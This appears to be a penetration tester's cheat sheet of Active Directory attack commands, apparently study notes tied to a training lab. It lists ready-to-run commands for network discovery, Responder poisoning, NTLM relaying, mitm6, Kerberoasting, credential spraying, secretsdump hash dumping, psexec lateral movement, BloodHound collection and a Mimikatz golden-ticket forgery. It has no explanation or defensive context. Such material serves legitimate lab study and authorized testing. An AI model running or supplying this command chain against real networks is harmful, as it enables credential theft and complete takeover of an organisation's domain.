 Joe's one liner to discover live hosts:

sudo nmap -sn 10.0.0.0/24 --discovery-ignore-rst -oG - | grep Up | cut -d " " -f 2

# Responder
sudo responder -I tun0 -dwP

# ntmlrelay
sudo ntlmrelayx.py -tf targets.txt smb2support -i

# mitm6
mitm6 -d DOMAIN.local

# Kerberoasting
sudo GetUserSPNs.py DOMAIN.local/user:password -dc-ip 10.0.0.225 -request

# NetExec
sudo crackmapexec smb 10.0.0.0/24 -u user -d DOMAIN.local -p password

# secretsdump
sudo secretsdump.py DOMAIN.local/Administrator:'Password123!'@10.0.0.25

# LDAPdump
ldapdomaindump ldaps://10.0.0.35 -u 'DOMAIN.local\Administrator' -p Password123!

# psexec
sudo psexec.py DOMAIN.local/user:'password'@10.0.0.25

# Bloodhound
bloodhound-python -d domain.local -u user -p password -ns 10.0.0.225 -c all

# Mimikatz
privilege::debug

lsadump::lsa /inject /name:krbtgt

kerberos::golden /User:Administrator /domain:DOMAIN.local /sid:S-1-5-21-83923329-4171520844-1064898975 /krbtgt:a9dde8402531593e07cfe84e4a34fac1 /id:502 /ptt

# Post DC Compromise
secretsdump.py AFC-RICHMOND.local/User:'Password2023!'@10.0.0.225 -just-dc-ntlm
